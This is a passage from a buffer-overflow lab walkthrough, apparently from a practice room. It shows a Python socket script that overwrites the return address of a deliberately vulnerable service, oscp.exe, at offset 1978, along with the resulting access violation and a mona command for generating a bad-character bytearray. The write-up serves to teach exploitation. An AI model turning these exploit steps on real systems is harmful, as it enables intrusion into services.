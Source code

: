 As seen, I got my offset:

```
1978
```

Knowing this, we now need to modify `exploit.py` again:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix = "OVERFLOW1"
offset = 1978
overflow= "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

# Read the pattern file:
with open("pattern.txt","r") as f:
 payload = f.read().strip()

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()

```

We need to restart `oscp.exe` again and run it:

![Pasted image 20250529123058.png](../../IMAGES/Pasted%20image%2020250529123058.png)

As seen, we got `Access Violation when executing [42424242]`, this means everything's going right by now, now, we need to use mona again to generate the base bytearray:

```
!mona bytearray -b "\x00"
```

![Pasted image 20250529123802.png](../../IMAGES/Pasted%20image%2020250529123802.png)

